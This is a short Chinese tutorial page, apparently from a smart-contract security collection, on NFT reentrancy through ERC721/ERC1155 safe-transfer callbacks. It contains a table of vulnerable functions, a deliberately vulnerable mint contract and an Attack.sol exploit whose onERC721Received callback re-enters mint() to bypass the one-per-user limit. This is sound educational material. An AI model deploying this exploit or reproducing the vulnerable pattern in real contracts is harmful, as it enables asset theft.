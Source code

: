 ```yaml
---
title: 11.NFTReentrancy

---
```


# Summary

尽管NFT标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账，但是如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。
例如 ERC721 的 safeTransferFrom() 函数会调用目标地址的 onERC721Received() 函数，而黑客可以把恶意代码嵌入其中进行攻击。

# 危险函数表
| Standard | Vulnerablefunction                  |
| -------- | ----------------------------------- |
| ERC721   | safeTransferFrom                    |
|          | _safeTransfer                       |
|          | _safeMint                           |
|          | _checkonERC721Received              |
| ERC1155  | safeTransferFrom                    |
|          | _safeTransferFrom                   |
|          | safeBatchTransferFrom               |
|          | _safeBatchTransferFrom              |
|          | _mint                               |
|          | _mintBatch                          |
|          | _doSafeTransferAcceptanceCheck      |
|          | _doSafeBatchTransferAcceptanceCheck |


# Example
Code from [WTF](https://github.com/AmazingAng/WTF-Solidity/blob/main/S16_NFTReentrancy/readme.md)

```solidity title="NFT.sol"
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

```solidity title="Attack.sol"
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```
